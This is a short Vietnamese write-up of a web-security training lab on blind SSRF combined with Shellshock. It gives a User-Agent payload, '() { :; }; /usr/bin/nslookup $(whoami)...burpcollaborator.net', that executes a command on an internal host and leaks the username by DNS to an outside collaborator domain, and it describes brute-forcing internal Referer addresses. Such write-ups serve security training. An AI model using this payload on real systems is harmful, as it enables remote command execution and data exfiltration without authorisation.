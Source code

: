 ## Blind SSRF with Shellshock exploitation

***Lab này sẽ hướng dẫn chúng ta tấn công shellshock mà không cần xác thực bằng cách sử đổi user-agent thành đoạn ngôn ngữ bash (description bảo vậy :v).***

Dưới đây là định nghĩa về 1 hàm shellshock thực thi hợp lệ

![](/imgs/CSRF/25.png?raw=true)

Ta sẽ bắt request của 1 post bất kì có **referer** và sửa **user-agent** lại thành đoạn lệnh tấn công shellshock.

**User-Agent: () { :; }; /usr/bin/nslookup $(whoami).d2g3w36drwscrp50gyy9uuy4cvin6c.burpcollaborator.net**

Mục đích là để DNS tới Burp Collaborator + Referer sẽ sửa lại như ở description của lab để là 192.168.0.x:8080

Sau khi Brute từ 1->255 chúng ta sẽ Pool những request đã gửi tới, request sẽ có format domain là tên user ($(whoami)).host

![](/imgs/CSRF/26.png?raw=true)

Submit lên tên user là solve lab

![](/imgs/CSRF/27.png?raw=true)

### Tài liệu tham khảo
- [OSWAP Shellshock:](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)